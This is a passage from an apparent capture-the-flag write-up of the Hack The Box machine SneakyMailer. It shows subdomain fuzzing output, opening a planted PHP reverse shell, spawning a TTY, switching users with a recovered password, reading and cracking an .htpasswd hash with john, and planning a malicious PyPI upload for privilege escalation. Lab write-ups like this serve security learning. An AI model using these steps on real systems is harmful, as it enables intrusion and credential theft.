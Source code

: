 ```
                                                      ns.org/licenses/by-
                                                      sa/3.0/"           
000000834:   200        340 L    989 W    13737 Ch    "dev"              
000006304:   301        7 L      12 W     185 Ch      "Christmas" 
...
```

The `dev` subdomain... should've guessed. Add `dev.sneakycorp.htb` to our `/etc/hosts`, then navigate to: http://dev.sneakycorp.htb/rshell.php to open the shell.

## Privilege Escalation

Just to make stuff easier on ourselves, let's spawn a TTY shell and see if we can `su` to the developer user.
```
$ whoami
www-data
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su developer
su developer
Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C

developer@sneakymailer:/$
```
The user flag is in /home/low but we don't have permissions to read it. Let's check `www-data`'s pseudo-home `/var/www/html`. There is only a nginx default html page. What about up a directory?
```
developer@sneakymailer:/var/www$ ls
ls
dev.sneakycorp.htb  html  pypi.sneakycorp.htb  sneakycorp.htb
developer@sneakymailer:/var/www$ cd pypi.sneakycorp.htb
cd pypi.sneakycorp.htb
developer@sneakymailer:/var/www/pypi.sneakycorp.htb$ ls -a
ls -a
.  ..  .htpasswd  packages  venv

developer@sneakymailer:/var/www/pypi.sneakycorp.htb$ cat .htpasswd
cat .htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```
Before we go any further, let's crack the password:
```
john pypi.hash --wordlist=/usr/share/wordlists/rockyou.txt
...
soufianeelhaoui  (pypi)
...
```
New, credentials: `pypi:soufianeelhaoui`. Per the email for `low`, PyPI modules will be installed and tested by user `low`. If we upload something, we could potentially get a shell with `low` permissions.

Reading through some PyPI Server docs [here](https://pypi.org/project/pypiserver/), we can find a way to upload with `setuptools`.
